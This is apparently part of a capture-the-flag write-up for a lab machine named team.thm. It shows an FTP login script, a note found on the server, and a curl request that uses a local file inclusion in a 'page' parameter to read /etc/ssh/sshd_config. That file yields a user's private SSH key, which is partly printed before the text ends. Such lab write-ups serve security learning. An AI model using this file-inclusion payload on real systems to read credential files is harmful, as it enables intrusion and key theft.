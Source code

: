 ```console
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

```

Logged in with given credentials to ftp and got a file `New_site.txt` 
```console
❯ cat New_site.txt
Dale
	I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles
```

The file says that id_rsa can be found in dev dns.<br></br>
Ran sniper script with burpSuite and got  the `id_rsa` of dale in `/etc/ssh/sshd_config`
```console
❯ curl http://dev.team.thm/script.php\?page\=/etc/ssh/sshd_config

#	$OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

#Port 22
#AddressFamily any
<----snip------->


#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
#o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP
#zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu
#k5xumOxPnyWAGiM0XOBSfgaU+eADcaGfwSF1a0gI8G/TtJfbcW33gnwZBVhc30uLG8JoKS
#xtA1J4yRazjEqK8hU8FUvowsGGls+trkxBYgceWwJFUudYjBq2NbX2glKz52vqFZdbAa1S
#0soiabHiuwd+3N/ygsSuDhOhKIg4MWH6VeJcSMIrAAAFkNt4pcTbeKXEAAAAB3NzaC1yc2
#EAAAGBAJ4OijEx985vuq6nkM5+RywY4K7gfZNq1/13cwq+o73RSyfrh+GVRDVJG4uVlDnU
#eKHJOHRY5NN19Ww7IWorABUSSZIFKtfszSfqfemSBCrZvd2mMt/mIIJYjf1qBvkT6j/D+v
#7n5VNH7cZBxOeB9S5dNx2zftB+CTPyJ177s+FPQ39PZvfSWIug1cOVxrGliqPVqh4S+V0v
#JWLv38uVQGDnydKck4fCHYRVLgM37gvn49AXEOnjxYcRBelmjQkqStr/qsT8zFCC0Hc7a/
#FoVEU8bmjkDiMUNsSfs1gyjIsp8yf5c8JiOBIjio9f54f8OyPK5OowY2qgLpOcbpjsT58l
#gBojNFzgUn4GlPngA3Ghn8EhdWtICPBv07SX23Ft94J8GQVYXN9LixvCaCksbQNSeMkWs4
#xKivIVPBVL6MLBhpbPra5MQWIHHlsCRVLnWIwatjW19oJSs+dr6hWXWwGtUtLKImmx4rsH
```